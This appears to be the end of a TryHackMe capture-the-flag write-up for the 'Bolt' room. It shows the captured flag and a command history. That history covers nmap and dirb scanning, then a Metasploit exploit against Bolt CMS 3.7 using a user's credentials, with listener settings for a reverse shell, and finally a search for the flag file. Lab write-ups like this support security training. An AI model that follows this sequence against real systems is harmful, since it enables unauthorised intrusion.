 ```bash
cat /home/flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
```


**Room completed!**

![](https://github.com/JonmarCorpuz/Writeups/blob/main/TryHackMe%20Writeups/Assets/TryHackMe%20-%20Bolt.png)

# Command History
1. `nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
2. `cat {FILENAME1}.txt`
3. `dirb http://{TARGET IP}:8000 > {FILENAME2}.txt`
4. `cat {FILENAME2}.txt`
5. `firefox "http://10.10.195.64:8000"`
6. `firefox "http://10.10.195.64:8000/entries"`
7. `firefox "https://www.google.com/search?client=firefox-b-d&q=boltcms"`
8. `firefox "http://10.10.195.64:8000/bolt"`
9. `msfconsole`
10. `search Bolt 3.7`
11. `info {EXPLOIT PATH}`
12. `use {EXPLOIT PATH}`
13. `show options`
14. `set PASSWORD {JAKE'S PASSWORD}`
15. `set RHOSTS {TARGET IP}`
16. `set USERNAME {JAKE'S USERNAME}`
17. `set LHOST {MACHINE IP}`
18. `set LPORT {PORT NUMBER}`
19. `show options`
20. `exploit`
21. `whoami`
22. `find / -type f -name flag.txt 2>/dev/null`
23. `cat {FLAG TEXT PATH}`
